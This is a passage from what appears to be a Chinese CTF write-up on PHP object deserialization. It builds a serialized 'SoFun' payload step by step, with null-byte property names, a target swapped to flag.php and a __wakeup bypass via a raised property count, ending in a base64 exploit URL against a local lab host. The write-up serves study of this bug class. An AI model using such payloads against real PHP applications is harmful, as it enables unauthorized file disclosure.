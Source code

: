 `O:5:"SoFun":1:{s:7:"*file";s:9:"index.php";}`

我们需要将file的%00补上

`O:5:"SoFun":1:{s:7:"%00*%00file";s:9:"index.php";}`

修改flag.php

`O:5:"SoFun":1:{s:7:"%00*%00file";s:8:"flag.php";}`

绕过`wakeup`

`O:5:"SoFun":2:{s:7:"%00*%00file";s:8:"flag.php";}`

然后需要urldecode一下，将%00转为空字节，最后base64之后就是payload了

`http://php.local/index.php?file=Tzo1OiJTb0Z1biI6Mjp7czo3OiIAKgBmaWxlIjtzOjg6ImZsYWcucGhwIjt9`

# 参考链接

- [反序列化审计](https://github.com/aleenzz/php_bug_wiki/blob/master/1.9.反序列化审计.md)
- https://xz.aliyun.com/t/3674
- [深度剖析PHP序列化和反序列化](https://www.cnblogs.com/youyoui/p/8610068.html)
- https://www.freebuf.com/news/172507.html

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**